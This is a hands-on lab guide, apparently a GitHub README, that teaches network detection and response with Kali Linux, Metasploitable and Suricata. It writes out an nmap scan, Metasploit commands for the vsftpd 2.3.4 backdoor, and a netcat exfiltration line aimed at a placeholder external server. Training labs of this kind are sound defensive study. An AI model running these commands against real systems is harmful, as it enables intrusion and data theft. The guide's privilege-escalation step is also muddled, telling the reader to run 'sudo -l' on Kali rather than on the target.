 # Exploring Network Detection and Response (NDR) with Kali Linux and Metasploitable

## Objective

The purpose of this lab is to provide hands-on experience with Network Detection and Response (NDR) solutions by simulating real-world attacks using Kali Linux and Metasploitable. Participants will learn how to identify vulnerabilities, exploit them, and analyze how an NDR system detects and responds to malicious activities within a network.

## Prerequisites
- Basic understanding of network security concepts.
- Familiarity with penetration testing tools (e.g., Metasploit).
- Access to a virtual lab environment with Hyper-V installed.

## Lab Environment
- Kali Linux: A powerful penetration testing distribution that includes numerous tools for ethical hacking and network security assessments.This is where you perform reconnaissance, exploitation, and analysis of alerts using tools like Nmap, Metasploit, and Suricata.
- Metasploitable: An intentionally vulnerable Linux distribution designed for testing and training purposes. It allows participants to practice penetration testing techniques.You'll log in here to get the IP address and potentially as a target for the attacks.
- NDR Solution (e.g., Suricata or Zeek): An open-source monitoring tool that provides visibility into network traffic, detects anomalies, and can simulate some NDR functionalities.

## Key Learning Outcomes
- Understand the principles of NDR and its importance in modern cybersecurity.
- Gain hands-on experience in reconnaissance, exploitation, and post-exploitation techniques.
- Analyze alerts and logs generated by the NDR solution during simulated attacks.
- Discuss the effectiveness of NDR in detecting and mitigating threats.

## Lab Activities
- Reconnaissance: Use nmap to scan the Metasploitable VM, identifying open ports and services.
- Exploitation: Utilize Metasploit to exploit vulnerabilities in Metasploitable, demonstrating common attack techniques.
- Post-Exploitation: Simulate actions an attacker might take after gaining access, such as privilege escalation and data exfiltration.
- Monitoring and Analysis: Observe and analyze alerts generated by the NDR solution, discussing detection capabilities and incident response.

## Understanding NDR

**What is NDR?**

NDR refers to technologies and processes that monitor network traffic to detect, analyze, and respond to threats in real-time. It emphasizes not just detection but also response strategies.

**Importance of NDR:**

In today’s threat landscape, traditional perimeter defenses are insufficient. NDR solutions help organizations identify threats that bypass these defenses and respond swiftly to minimize damage.

**How NDR Tools Work**
- **Traffic Analysis:** Tools like Suricata analyze network packets in real-time, looking for signatures of known attacks, anomalies, or unusual behavior.
- **Alert Generation:** When suspicious activity is detected, alerts are generated, providing security teams with actionable insights.
- **Incident Response:** The response can range from automated actions (like blocking an IP) to manual interventions based on alert severity.

## Lab Activities

**Update GPG Keys and Package Lists**
Update GPG Keys: Run the following command in the Kali terminal:

```
sudo apt-key adv --refresh-keys --keyserver keyserver.ubuntu.com
```
Next, run the below command to update the list of available packages.

```
sudo apt-get update
```
GPG (GNU Privacy Guard) keys are used to digitally sign packages in a Linux distribution's package repository, updating GPG keys is a security best practice that helps ensure the authenticity and integrity of the software packages you download and install on your system.

**Activity 1: Generating Traffic and Reconnaissance**

Objective: Generate network traffic and identify open ports and services on the Metasploitable VM.

1. Ping Metasploitable from Kali: Open a terminal in Kali Linux and run:
```
ping <Metasploitable_IP>
```

This sends ICMP echo requests to the Metasploitable VM, generating network traffic that can be monitored by NDR solutions.

2. Open a terminal in Kali Linux. Run Nmap to scan the Metasploitable VM:
```
nmap -sS -sV -p- <Metasploitable_IP>
```
3. Analyze the output: Look for open ports, the state of each port (open/closed/filtered), and the service/version information.

Running nmap -sS -sV -p- <Metasploitable_IP> provides crucial information about the network services available on the target. This reconnaissance step is vital for ethical hackers and attackers alike, and understanding the implications of the scan output is essential for effective security assessments and incident response strategies.

**Activity 2: Exploitation**

Objective: Exploit vulnerabilities in Metasploitable to simulate an attack,observing how NDR detects these actions.

1.  Open a terminal in Kali Linux.

2.  Launch Metasploit:
``` 
msfconsole
```

2. Search for available exploits for Metasploitable services (e.g., vsftpd):
```
search vsftpd
```

3. Select and configure the exploit:
```
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <Metasploitable_IP>
exploit
```

4. Verify Access: Interact with the session created after exploitation.

**Activity 3: Post-Exploitation Actions**

Objective: Simulate actions an attacker might take after gaining access.

1. Privilege Escalation: Attempt to escalate privileges using techniques. Run the command in Kali Linux
   ```
   sudo -l
   ```
   
2. Data Gathering: Run commands to gather system information on Metasploitable VM
```
uname -a
whoami
```

3. Simulated Data Exfiltration:
Use a command to send data to a controlled external server (or simply log it):
```
echo "Sensitive Data" | nc <your_external_server_IP> <port>
```

**Activity 4: Monitoring and Analysis**

Objective: Simulate monitoring and analyze alerts related to the activities performed.

1. Install and Run an Open-Source NDR Tool: Install Suricata:
```
sudo apt update
sudo apt install suricata
```
2. Start Suricata: Check the status of Suricata to ensure it's running:
```
sudo systemctl status suricata
```

3. If it's not running, start Suricata:
```
sudo systemctl start suricata
```

2. Configure Suricata to monitor the appropriate network interface.
```
sudo suricata -c /etc/suricata/suricata.yaml -i eth0
```

3. Review Logs:

Check logs for alerts generated during the reconnaissance, exploitation, and post-exploitation activities:
```
cat /var/log/suricata/fast.log
```

## Discussion and Analysis
Review the types of attacks conducted and how they might be detected by an NDR solution.
Analyze the alerts generated by Suricata or expected alerts from typical NDR systems.
Discuss how the knowledge gained can be applied to enhance network security measures.

## Summary
In summary, the lab simulates a series of common attack phases (reconnaissance, exploitation, and post-exploitation) using tools and techniques that are widely used in real-world cyber attacks. The suspicious activities generated during this process—such as port scanning, exploit attempts, and data exfiltration—are what NDR solutions are designed to detect and respond to. Participants can observe how these actions manifest in logs and alerts from the NDR tool, enhancing their understanding of network security monitoring.

## Ethical Considerations
This lab is intended for educational purposes only. Participants are reminded to operate within a controlled environment and adhere to ethical hacking principles. All activities should be performed in compliance with relevant laws and organizational policies.
